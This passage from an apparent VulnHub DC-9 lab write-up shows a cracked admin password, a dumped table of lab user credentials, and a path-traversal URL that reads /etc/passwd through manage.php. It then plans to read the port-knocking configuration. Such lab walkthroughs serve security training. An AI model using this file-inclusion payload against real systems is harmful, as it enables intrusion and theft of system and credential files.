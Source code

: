 Cracked! The password for admin is `transorbital1`

- dump users db
```code
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

Now, we have both admin and user creds, we start to login in `manage.php`. 



![6c091285e4d32b935215a239f8c844c8.png](/images/vulnhub/dc-9/f4063984808e4c2095ac084e40355390.png)

As usual, few things im going to test whenever i can is doing LFI test and few others such as SQLi but we already got that already and another would be XSS. 

Lets try this on the attacking browser for LFI test. `192.168.43.182/manage.php?file=../../../../etc/passwd`



![da1bed853bfd59112a2463523556520a.png](/images/vulnhub/dc-9/d22173255cee4476a447d47673f9f4f7.png)


## Initial Access / Initial Foothold

For initial access, i have been scratching my head for this untill i realise there is a filtered SSH on the nmap scan. 

Usually the port will open or eventually closed unless it need other method to bring it up?

For this part, we need to take a look at port knocking sections. According to this [site](https://linux.die.net/man/1/knockd) or linux manual page, knockd config reside on /etc/knockd.conf. 

We can use LFI to enumerate this if its really there. 

![f9a89d7c52d4ed9c43f5cbda35ca8205.png](/images/vulnhub/dc-9/3a8b915e37214577857cd6735856c1de.png)
